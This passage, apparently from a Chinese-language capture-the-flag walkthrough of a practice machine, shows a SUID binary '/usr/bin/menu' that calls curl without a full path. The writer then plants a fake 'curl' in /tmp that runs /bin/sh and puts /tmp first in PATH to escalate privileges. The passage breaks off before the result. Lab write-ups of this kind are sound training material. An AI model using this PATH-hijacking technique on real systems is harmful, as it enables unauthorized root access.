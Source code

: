 这里的可疑文件就是`/usr/bin/menu`，没有发现其他能利用的SUID的程序。

### Run the binary, how many options appear?

```SHELL
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
HTTP/1.1 200 OK
Date: Wed, 06 Mar 2024 03:50:41 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Wed, 04 Sep 2019 09:07:20 GMT
ETag: "c8-591b6884b6ed2"
Accept-Ranges: bytes
Content-Length: 200
Vary: Accept-Encoding
Content-Type: text/html
```

选项1好像做了一个web请求。

使用strings查看menu中包含的明文字符串：

```shell
... ..
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig
 Invalid choice
... ...
```

发现它会调用`curl`程序，该程序属性如下：

```shell
kenobi@kenobi:~$ which curl
/usr/bin/curl
kenobi@kenobi:~$ ll /usr/bin/curl
-rwxr-xr-x 1 root root 190408 Jan 29  2019 /usr/bin/curl*
```

那我们这里的思路就是在当前的shell中添加一个环境变量，在新添加的环境变量中为在一个curl程序，让他去调用bash或者sh。

```shell
kenobi@kenobi:~$ cd /tmp
kenobi@kenobi:/tmp$ echo /bin/sh > curl				--> 在/tmp下伪造一个curl
kenobi@kenobi:/tmp$ chmod 777 curl						--> 修改一下权限
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH	  --> 修改PATH环境变量，/tmp路径放在最前面
```
